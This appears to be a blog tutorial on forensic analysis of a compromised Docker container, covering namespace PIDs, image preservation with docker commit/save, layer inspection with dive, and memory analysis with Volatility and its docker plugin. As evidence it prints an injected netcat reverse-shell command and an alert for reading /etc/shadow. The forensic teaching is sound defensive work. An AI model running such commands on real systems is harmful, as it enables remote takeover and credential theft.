


---

This post is going to focus on the triaging and analysis of a container that has been compromised. 


### PIDs

Before we get into the actual analysis lets start with a quick overview of how processes exist in containers. When you run PS inside a container you typically get a very short list of running processes, and not all of the processes that are currently running on the underlying host. This is due to one of the foundational compoents that make a container a container, namespaces. Linux namespaces *isolate* the proceses within containers. What does this look like in practice? Lets look.

Take for example the following line from a `ps aux` output ran on a host.

```
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root        2954  0.0  0.0   4200   740 pts/1    S+   02:41   0:00 ping 8.8.8.8
```

We can see this process has a PID of 2954. Looking at pstree we can see this process is a child of bash, which is a child of containerd-shim

```
systemd(1)───containerd-shim(2396)───bash(2604)───ping(2954)
```

If we exec into the container and run the same ps commands we get a completely different pid:

```
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         379  0.0  0.0   4200   740 pts/1    S+   02:41   0:00 ping 8.8.8.8
```

This is due to the Linux namespace restricting our view so we can only see processes that exist "within" the container. If we attempt to kill PID 2954 on the host from within the container we will get an error that no such process exists. We could however kill process 379 without any issue.

For a much more indepth explaination I highly reccommend the book [Container Security: Fundamental Technology Concepts that Protect Containerized Applications](https://www.oreilly.com/library/view/container-security/9781492056690/) by Liz Rice. Last I checked Aqua security was giving the ebook away for free.

### The Scene
Moving on to a more practical example let's pretend that we get an alert or a system admin reached out to us because of some strange behavior they were seeing on a host that runs container workloads. When we begin our investigation we see something that instantly looks off (it is a bit contrived but works for our purposes).

```
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
www-data    5631  0.0  0.0   4296   732 ?        S    12:07   0:00 sh -c ping  -c 4 & /bin/nc 172.31.18.167 8888 -e /bin/bash
```

We know this host runs containers, and guessing by the username this is probably tied to a webserver. In speaking with the system admin we learn that this host does not directly run a webserver, but it's very likely one of the application teams is running a webserver to host an application out of one of the container workloads. We can confirm this is true by looking at the pstree output:

```
pstree -asp 5631

systemd,1
  └─containerd-shim,1201 -namespace moby -id 74103b827ac72be1de5a00ebc2524b8100abdfb8fee9209e35fda295049c9f95 -address /run/containerd/containerd.sock
      └─main.sh,1223 /main.sh
          └─apache2,1566 -k start
              └─apache2,5239 -k start
                  └─sh,5631 -c ping  -c 4 & /bin/nc 172.31.18.167 8888 -e /bin/bash
                      └─bash,5633
```

Unfortunatly during the middle of our initial triage the machine is destroyed by the administrator in an attempt to resolve the issue. A few days later we get additional alerts from the newly created host. The alert: 

```
10:20:05.408091526: Warning Sensitive file opened for reading by non-trusted program (user=root command=cat /etc/shadow file=/etc/shadow)
```

### Carving the running container out

First lets grab the eqivilant of a disk image of the running container this. We'll be able to perform an analysis on the image and it also preserves the image in the event that it is killed. *Note: this post mainly focuses on the container itself, opperating within a Kubernetes cluster is highly likely in a scenario similar to this. There are additional things that should occur when performing analysis on a Kubernetes cluster to preserve and protect both the running container and the host that the container is running on. Failure to do so may result in the entire node being terminated and all relevant evidence along with it.*

Lets determine the container id where this process lives

```
# docker ps
CONTAINER ID   IMAGE                  COMMAND      CREATED       STATUS       PORTS                               NAMES
74103b827ac7   publicfacingapp:v1.0   "/main.sh"   2 hours ago   Up 2 hours   0.0.0.0:80->80/tcp, :::80->80/tcp   pensive_newton
```

Now that we know the container ID we can create an image from the running container preserving any changes that have occured since the container was launched:

```
docker commit 74103 sec-incident:123
```

When we run the `docker images` command we see our new image, as well as the orignal image the container launched with. 

```
REPOSITORY        TAG       IMAGE ID       CREATED          SIZE
sec-incident      123       21ec0e2680fa   5 seconds ago    845MB
publicfacingapp   v1.0      ab0d83586b6e   3 years ago      712MB
```

Comparing the sizes of the two images there have been lots of changes within the image since it was first launched. Next we will save the image so that it is portable and can be moved to our analysis workstation.

```
docker save sec-incident:123 -o sec-incident.tar
```

It's important to note we are using the `docker save` command instead of the `docker export` command. Both with produce a tar file. The biggest difference is that the export command will flatten the image/layer history. Save on the other hand will preserve all of the layer history. For our use case preserving the history is very helpful when analyzing how the image has shifted from it's initial launch.

df -h

Let's dig into those changes.

### Dive

There are several tools that can be used to perform static analysis of a container image. One of my favorites is dive. Dive is "a tool for exploring a docker image, layer contents, and discovering ways to shrink the size of your Docker/OCI Image." Obviously for our purposes we do not care about shrinking the image we just want to be able to explore the image at each of the various layers.

Once installed on our analysis system we can 


docker load:
```
docker load < security-incident-123.tar
a75caa09eb1f: Loading layer [==================================================>]    105MB/105MB
80f9a8427b18: Loading layer [==================================================>]  494.7MB/494.7MB
97a1040801c3: Loading layer [==================================================>]  7.168kB/7.168kB
acf8abb873ce: Loading layer [==================================================>]  5.655MB/5.655MB
9713610e6ec4: Loading layer [==================================================>]  5.632kB/5.632kB
73e92d5f2a6c: Loading layer [==================================================>]  5.658MB/5.658MB
585e40f29c46: Loading layer [==================================================>]  114.3MB/114.3MB
deeea3c4d56f: Loading layer [==================================================>]  2.048kB/2.048kB
9ef9e3967882: Loading layer [==================================================>]  121.7MB/121.7MB
Loaded image: sec-incident-123:latest
```

Looking at the image in dive in the top left panel we can see all of the image layers. The bottom layer are all of the changes that occureced since the image was started to the time we saved the image. In our case ~122MB of changes occured.



In the section below we can see the layer details. This includes the ID and Digest. We'll use the Id (`8b05f1f5449209b8f98544dfb75b74682655a7ea5cb42076ea3bd5251fa198cb`) later when we go to extract specific files from the image.



On the right we can see all of the contents of the filesystem at the current layer. This includes files from the previous layers. Dive color codes the files to show files that are new to the layer (green) and those files that have been modified when compared to the previous layer (yellow)


Looking at layer contents we can see there are several new files. Unfortunatly dive does not offer the ability to extract a file directly. To dig into the files themselves to better understand what has occured we'll have to extract the layer from the image. 

### File Analysis
We can extract the layers the same way we would any other tar file

```
tar -xvf security-incident-123.tar
```

This will create several new folders, one for each layer of the image. We want to carve files out that occured within the most recent layer created for the image. Using the what we know from Dive we know the layer id is `8b05f1f5449209b8f98544dfb75b74682655a7ea5cb42076ea3bd5251fa198cb`. 


We can about the layer.tar file once again we'll extract it with `tar -xvf layer.tar`. This presents us with all of the folders where a change occured. Using what we learned from Dive above we can navigate to files of interest and begin to inspect them to determine what there intent was. This is only part of the picture though. 

### Intermission

The "disk" analysis of the container is only part of the picture though. After analyzing the files we determined that there were several webshells present. Given the timestamps of when they appear to have been created it would appear it was the same actor copying the same shell to maintain access in the event that one of the shells was discovered and deleted. The shell was the same and it was a version of Web Shell Orb. A fairly full featured webshell with various capabilities.

### Memory Analysis

Collection of memory occurs just as it would for any other Linux host. For this post LiME was used, but avml is also an option.

#### Volatility2
```
python2 /home/ubuntu/git/volatility/vol.py --profile=Linuxubuntu-5_13_0-1022-awsx64 -f /home/ubuntu/webserver.lime linux_pslist
```
When it comes to memory analysis with volatility there really isn't anything special about analyzing activity that has occurred in a container vs outside on the host. The most important thing to remeber is when analyzing processes is to utilize the PID of the suspicious processes on at the host level and not the container native PIDs.


#### Volatility3

Container analysis with volatility3 is a little bit different than it was with volatility. The main reasonf or this is the `volatility-docker` plugin built by Ofek Shaked & Amir Sheffer. This plugin adds namespace support and various docker cammnads which can aid in understanding the dump. 

One example is the additional arguement added to the ps commands: `nsinfo`. As expected by the argument name this will display information about the namespace associated with a particular pid. Below is a sample output of the pstree module showing nsinfo.  

|PID|PPID|COMM|Start Time (UTC)|PID in NS|UTS NS|IPC NS|MNT NS|NET NS|PID NS|USER NS|
|----|----|----|----|----|----|----|----|----|----|----|
|1|0|systemd|2022-05-08 16:21:23.204|1|4026531838|4026531839|4026531840|4026532040|4026531836|026531837|
|* 3983|1|containerd-shim|2022-05-08 16:29:25.889| 3983| 4026531838| 4026531839| 4026531840|4026532040|4026531836|4026531837|
|** 4005|3983|main.sh|2022-05-08 16:29:25.908|1|4026532301|4026532302|4026532300|4026532305|4026532303|4026531837|
|*** 4065|4005|mysqld_safe|2022-05-08 16:29:27.611|37|4026532301|4026532302|4026532300|4026532305|4026532303|4026531837|
|**** 4211|4065|mysqld|2022-05-08 16:29:27.750|183|4026532301|4026532302|4026532300|4026532305|4026532303|4026531837|
|*** 4322|4005|apache2|2022-05-08 16:29:28.834|294|4026532301|4026532302|4026532300|4026532305|4026532303|4026531837|

In the table above we can see `main.sh` is a child of containerd-shim which indicates this is a process in a container. Additionally `main.sh` in the NS is 1 which tells us this is the pid used to start the container. Below that we can see other PIDs which are related to host pid 4005, and are in the same namespaces. We can use this to determine all of the pids associated with this container this way. This mapping can be really helpful if the initial alert source that triggered the investigation is only showing the PID within the namespace.

```
python3 /home/ubuntu/git/volatility3/vol.py -s /home/ubuntu/tmp -f /home/ubuntu/webserver.lime linux.pstree.PsTree --nsinfo --pid 4005
```

The docker plugin itself adds several new capabilities. The output below shows the available arguments. 

```
python3 /home/ubuntu/git/volatility3/vol.py -f /home/ubuntu/webserver.lime linux.docker.Docker -h

optional arguments:
  -h, --help            show this help message and exit
  --detector            Detect Docker daemon / containers in memory
  --ps                  List of running containers
  --ps-extended         Extended list of running containers
  --inspect-caps        Inspect containers capabilities
  --inspect-mounts      Show a list of containers mounts
  --inspect-mounts-extended
                        Show detailed list of containers mounts
  --inspect-networks    Show detailed list of containers networks
  --inspect-networks-extended
                        Show detailed list of containers networks
```

The `--detector` argument attempts to detect if docker is being used on the system.
```
python3 /home/ubuntu/git/volatility3/vol.py -f /home/ubuntu/webserver.lime docker.Docker --detector
Volatility 3 Framework 2.1.0
Progress:  100.00               Stacking attempts finished
Docker inetrface        Docker veth     Mounted Overlay FS      Containerd-shim is running

True    True    True    True
```

`--ps` and `--ps-extended` emulates the `docker ps` command showing all containers within the dump and details about them.
```
python3 /home/ubuntu/git/volatility3/vol.py  -f /home/ubuntu/webserver.lime docker.Docker --ps
Volatility 3 Framework 2.1.0
Progress:  100.00               Stacking attempts finished
Container ID    Command Creation Time (UTC)     PID

9ee1c270572     main.sh 2022-05-08 16:29:25.908 4005

---

python3 /home/ubuntu/git/volatility3/vol.py -f /home/ubuntu/webserver.lime docker.Docker --ps-extended
Volatility 3 Framework 2.1.0
Progress:  100.00               Stacking attempts finished
Creation time (UTC)     Command Container ID    Is privileged   PID     Effective UID

2022-05-08 16:29:25.908 main.sh 9ee1c270572062f3d2edb82ed5429439905472ccc93fc604f5a6d3758bf72836        False   4005   0
```

To see the capabilities associated with a container the `--inspect-caps` argument can be used. This will generate an output similar to below:
```
python3 /home/ubuntu/git/volatility3/vol.py -f /home/ubuntu/webserver.lime docker.Docker --inspect-caps
Volatility 3 Framework 2.1.0
Progress:  100.00               Stacking attempts finished
PID     Container ID    Effective Capabilities Mask     Effective Capabilities Mames

4005    9ee1c270572062f3d2edb82ed5429439905472ccc93fc604f5a6d3758bf72836        0xa80425fb      CAP_CHOWN,CAP_DAC_OVERRIDE,CAP_FOWNER,CAP_FSETID,CAP_KILL,CAP_SETGID,CAP_SETUID,CAP_SETPCAP,CAP_NET_BIND_SERVICE,CAP_NET_RAW,CAP_SYS_CHROOT,CAP_MKNOD,CAP_AUDIT_WRITE,CAP_SETFCAP
```

The `--inspect-networks` argument will show the containers and the associated networks. If more than one container is in the same network the truncated container id's are comma seperated.
```
python3 /home/ubuntu/git/volatility3/vol.py -f /home/ubuntu/webserver.lime docker.Docker --inspect-networks
Volatility 3 Framework 2.1.0
Progress:  100.00               Stacking attempts finished
Network /16 Segment     Containers IDs

172.17  9ee1c270572
```